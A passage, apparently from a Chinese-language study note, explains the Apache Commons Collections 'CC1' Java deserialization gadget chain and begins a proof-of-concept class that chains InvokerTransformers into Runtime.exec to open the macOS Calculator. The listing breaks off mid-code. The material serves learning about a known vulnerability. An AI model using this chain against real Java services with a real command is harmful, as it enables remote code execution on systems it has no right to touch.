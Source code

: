 简而言之，要满足以下2个条件：
1. `sun.reflect.annotation.AnnotationInvocationHandler` 构造函数的第一个参数必须是`Annotation`的子类，且其中必须含有至少一个方法，假设方法名是`XXX`。
2. 被 `TransformedMap.decorate` 修饰的`Map`中必须有一个键名为`XXX`的元素。

`Annotation`的实现类有很多：

![image](https://user-images.githubusercontent.com/84888757/204728097-e6eb4ead-cecc-4311-ab7c-34059113fc7b.png)

随便找一个成员不为空的就行，因为`key`是我们可以控制的。

比如， `SuppressWarnings` 中有 `value` 方法：

![image](https://user-images.githubusercontent.com/84888757/204728223-8ddf8d34-5ed9-4e1d-aadb-a699cf77b223.png)

然后将传入的`TransformedMap`的某个`Entry`的`key`值赋值为刚才的方法名`value`即可：

```
map.put("value", "v");
```

最后再加入序列化和反序列化可得完整代码：
`CC1_1.java`
```
package org.vulhub.Ser;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CC1_1 {
    public static void main(String[] args) throws Exception{
//        InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
//        exec.transform(Runtime.getRuntime());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[] {"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        // 创建一个map，并添加一个Entry
        Map map = new HashMap();
        map.put("value", "v");

        // 调用TransformedMap.decorate实例化TransformedMap
        Map<Object, Object> transformedMap = TransformedMap.decorate(map, null, transformerChain);
//        Map<Object, Object> transformedMap = TransformedMap.decorate(map, null, exec);
//        Map tansformedMap = TransformedMap.decorate(map, null, exec);
//        tansformedMap.put(1,Runtime.getRuntime());
        //tansformedMap.put(Runtime.getRuntime(),1);

//        for (Map.Entry entry: transformedMap.entrySet()) {
//            entry.setValue(1234);
```